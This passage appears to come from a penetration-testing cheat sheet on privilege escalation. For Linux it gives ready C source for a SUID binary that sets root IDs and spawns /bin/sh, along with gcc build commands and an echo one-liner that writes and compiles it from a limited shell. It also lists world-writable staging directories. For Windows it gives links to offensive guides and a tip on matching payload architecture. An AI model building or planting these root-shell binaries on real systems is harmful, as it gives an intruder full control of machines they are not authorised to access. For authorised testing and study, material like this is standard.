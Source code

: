 ### SUID file

* Create SUID C binary files
```  
  int main(void){  
  setresuid(0, 0, 0); // setreuid(0, 0); // setuid(0); // setgid(0); setuid(0);
  system("/bin/sh");  
  }  

  # Building the SUID Shell binary  
  gcc -o suid suid.c  
  For 32 bit:  
  gcc -m32 -o suid suid.c
```

* Create and compile an SUID from a limited shell (no file transfer)
```
 echo "int main(void){\nsetgid(0);\nsetuid(0);\nsystem(\"/bin/sh\");\n}" >privsc.c  
 gcc privsc.c -o privsc
```

### World writable directories

```
/tmp
/var/tmp
/dev/shm
/var/spool/vbox
/var/spool/samba
```

# Windows

**Good ressources if you run out of ideas**

* YOUTUBE: https://www.youtube.com/channel/UCcU4a3acOkH43EjNfpprIEw

* https://github.com/sagishahar/lpeworkshop/blob/master/Lab%20Exercises%20Walkthrough%20-%20Windows.pdf
* https://github.com/740i/pentest-notes/blob/master/windows-privesc.md
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
* https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
* https://guif.re/windowseop
* https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/
* https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html
* https://morph3sec.com/2019/07/16/Cheat-Sheets/Windows-Red-Team-Cheat-Sheet/

**Tips**

* :warning: Check Arch of your payloads! (e.g `PS > [Environment]::Is64BitProcess`). It might be the source of your problems.
* **syswow64** lets you run 32 bit system executables from 64 bit code. **sysnative** lets you run 64 bit system executables from 32 bit code. Run powershell from 32 bits cmd.exe: `%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe`
